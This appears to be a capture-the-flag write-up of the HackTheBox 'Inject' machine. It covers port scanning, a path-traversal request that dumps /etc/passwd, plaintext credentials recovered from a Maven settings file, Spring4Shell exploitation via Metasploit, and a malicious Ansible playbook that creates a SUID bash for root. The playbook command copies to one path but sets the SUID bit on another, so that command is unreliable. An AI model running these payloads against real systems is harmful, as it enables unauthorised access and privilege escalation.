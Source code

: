 ```yaml
---
title: HackTheBox - Inject
author: juba0x00
classes: wide
ribbon: MidnightBlue
header:
  teaser: /assets/images/Inject/Inject.png
date: 2023-05-05 14:00:00 +0800
categories: HTB
description: "Inject Machine..."
tags: [lfi, ansible playbook, spring]
toc: true

---
```


![](/assets/images/Inject/Inject.png)

| Release Date | 08 Apr 2023 |
| --- | --- |
| Retire Date |  |
| Solving Date | 05 May 2023 |
| Difficulty | Easy |
| OS | Linux |
| Points | 20 |
| Creator | <script src="http://www.hackthebox.eu/badge/image/396413"></script> |

---

# Enumeration
## port scanning

```bash
export ip=10.10.11.204

nmap -Pn -sV $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 19:01 EET
Nmap scan report for 10.10.11.204
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.26 seconds
```

## website on port 8080

- it seems it’s still in the development, because there is some functions that does not exists like “Log in” and “register”

![Untitled](/assets/images/Inject/Untitled.png)

- we can’t open the blogs or read the comments, just knowing the author (admin, Brandon Auger)

![Untitled](/assets/images/Inject/Untitled%201.png)

### upload page

- there is an upload page at `http://10.10.11.204:8080/upload`
- let’s try to upload an image and see what’s happening then try to upload a malicious file
- after uploading an image the website shows “View your Image” which redirects to `http://10.10.11.204:8080/show_image?img=image_name.png`, probably it’s vulnerable to Local File inclusion

### LFI PoC

```bash
curl http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

---

# Exploitation

- let’s use burp repeater to make it easy
- I checked the common places like the home directory, found phil and frank, not ssh keys found
- an interesting file I found is Apache Maven configuration file `settings.xml` in `/home/frank/.m2` directory

![Untitled](/assets/images/Inject/Untitled%202.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

- after some enumeration, we found that the website uses Spring web service version `2.6.6` which is vulnerable to Spring4Shell RCE ****CVE-2022-22965****

## Initial Access

- After trying some exploits from GitHub, I found this Metasploit exploit that worked properly

![Untitled](/assets/images/Inject/Untitled%203.png)

- great, now we have a shell, let’s try the credentials we found in [settings.xml](#exploitation) to switch the user to phil
    
    ![Untitled](/assets/images/Inject/Untitled%204.png)
    

## user.txt

![Untitled](/assets/images/Inject/Untitled%205.png)

- after a little bit of Enumeration, we found an automation directory in `/opt/`

# Privilege Escalation

- there is an ansible playbook in `/opt/automation/tasks`

## Ansible Playbooks

- So, What is the Ansible Playbook: Ansible playbook is a collection of tasks that are written in YAML format and executed by Ansible to automate the configuration and management of systems. Playbooks are used to define a set of instructions, or "plays," that Ansible should follow to achieve a desired state on the target system.
- Playbooks can be used to automate a wide range of tasks, such as deploying applications, configuring servers, and managing network devices. Playbooks can also be used to orchestrate complex workflows across multiple systems, allowing for the automation of entire IT processes.
- we are going to create an Ansible playbook and elevate our privileges

```yaml
- hosts: localhost
```

This line specifies the target hosts that the playbook will be run on. In this case, the playbook will be run on the local machine (i.e. **`localhost`**).

```yaml
  tasks:
    - name: PrivEsc
      command: /bin/bash -c "cp /bin/bash /tmp/new && chmod +s /tmp/suidbash"
      become: true
```

This section specifies the tasks that Ansible will execute on the target host(s). In this case, there is only one task defined:

- **`name: PrivEsc`**: This line specifies the name of the task. It is used to identify the task in the output of the Ansible playbook.
- **`command: cp /bin/bash /tmp/suidbash && chmod +s /tmp/suidbash`**: This line specifies the command to be executed. In this case, the command copies the **`bash`** binary from **`/bin/bash`** to **`/tmp/suidbash`** and sets the setuid bit on the copied binary. This effectively gives anyone who executes **`/tmp/suidbash`** the permissions of the owner of the file (which is root).
- **`become: true`**: This line specifies that Ansible should execute the task with escalated privileges. In this case, it will use **`sudo`** to elevate the privileges of the user running the playbook to become the root user.

![Untitled](/assets/images/Inject/Untitled%206.png)

## root.txt

![Untitled](/assets/images/Inject/Untitled%207.png)

---

![Owned Inject from Hack The Box!](/assets/images/Inject/achievement.png)

[Owned Inject from Hack The Box!](https://www.hackthebox.com/achievement/machine/664097/533)

